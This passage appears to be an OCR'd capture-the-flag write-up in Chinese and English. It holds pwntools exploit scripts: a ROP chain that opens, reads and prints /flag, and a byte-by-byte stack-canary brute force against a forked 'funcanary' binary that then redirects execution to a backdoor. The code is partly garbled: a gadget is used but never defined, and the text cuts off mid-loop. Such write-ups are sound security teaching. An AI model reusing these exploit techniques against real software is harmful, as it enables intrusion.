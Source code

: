 ```Python
pop_rsi_ret = 0x000000000040a67e # : pop rsi ; ret
pop_rdx_rbx_ret = 0x00000000004a404b # : pop rdx ; pop rbx ; ret
pop_rcx = 0x00000000004a972b # : pop rcx ; add eax, 0x1480000 ; ret
name_addr = 0x4E60F0
open64_addr = 0x000000000457C90
read_addr = 0x000000000457DC0
write_addr = 0x000000000457E60
fopen64_addr = 0x00000000041A600
r_addr = 0x4b8785

# fopen64   .text   000000000041A600    000000F6    00000028        R   .   .   .   .   .   T   .
# open64    .text   0000000000457C90    00000128    00000078    00000001    R   .   .   .   .   .   T   .
# read  .text   0000000000457DC0    0000009D    00000020        R   .   .   .   .   .   .   .
# write .text   0000000000457E60    0000009D    00000020        R   .   .   .   .   .   .   .

# gdb.attach(fang,'b *0x401FA8 ')
# pause()

pijiu(1,-9997)

chengbao()

# payload = "/flag\x00"
# gaming(payload)

payload = b"/flag\x00"
payload = payload.ljust(0x28,b'a')
payload += p64(pop_rdi_ret) + p64(name_addr) + p64(pop_rsi_ret) + p64(r_addr) + p64(fopen64_addr)
payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(name_addr) + p64(pop_rdx_rbx_ret) + p64(0x30) * 2 + p64(read_addr)
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(name_addr) + p64(pop_rdx_rbx_ret) + p64(0x30) * 2 + p64(write_addr)
gaming(payload)
# debug()

fang.interactive()
```

**funcanary**
-------------

fork出来的canary是一样的，爆破canary后把低位改成backdoor就可以了，改低位也要爆破一下

```JSON
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context(arch='amd64', os='linux')
local = 1
elf = ELF('./funcanary')

def debug(cmd='\n'):
    gdb.attach(p,cmd)
    pause()

def pwn():
    p.recvuntil('welcome\n')
    canary = '\x00'
    for k in range(7):
        for i in range(256):
            print("the " + str(k + 1) + ": " + chr(i))
            p.send('a'*0x68 + canary + chr(i))
            a = p.recvuntil("welcome\n")
```